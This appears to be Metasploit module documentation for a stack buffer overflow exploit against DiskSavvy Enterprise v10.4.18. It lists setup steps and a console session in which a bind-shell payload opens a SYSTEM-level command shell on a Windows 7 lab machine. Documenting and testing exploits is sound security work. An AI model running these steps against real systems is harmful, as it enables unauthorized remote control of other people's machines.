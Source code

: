 ## Vulnerable Application

[DiskSavvy Enterprise](http://www.disksavvy.com/) version v10.4.18, affected by a stack-based buffer overflow vulnerability caused by improper bounds checking of the request sent to the built-in server which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target.. This module has been tested successfully on Windows 7 SP1 x86. The vulnerable application is available for download at [DiskSavvy Enterprise](http://www.disksavvy.com/setups/disksavvyent_setup_v10.4.18.exe).

## Verification Steps
  1. Install a vulnerable DiskSavvy Enterprise
  2. Start `msfconsole`
  3. Do `exploit/windows/misc/disk_savvy_adm`
  4. Do `set RHOST ip`
  5. Do `set PAYLOAD windows/shell/bind_tcp`
  6. Do `exploit`
  7. Enjoy you shell

## Scenarios

###DiskSavvy Enterprise v10.4.18 on Windows 7 SP1 x86

```
msf > use exploit/windows/misc/disk_savvy_adm 
msf exploit(windows/misc/disk_savvy_adm) > set RHOST 192.168.216.55
RHOST => 192.168.216.55
msf exploit(windows/misc/disk_savvy_adm) > set payload windows/shell/bind_tcp
payload => windows/shell/bind_tcp
msf exploit(windows/misc/disk_savvy_adm) > exploit 

[*] Started bind handler
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.216.55
[*] Command shell session 1 opened (192.168.216.5:36113 -> 192.168.216.55:4444) at 2018-02-14 15:19:02 -0500

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami      
whoami
nt authority\system

C:\Windows\system32>
```

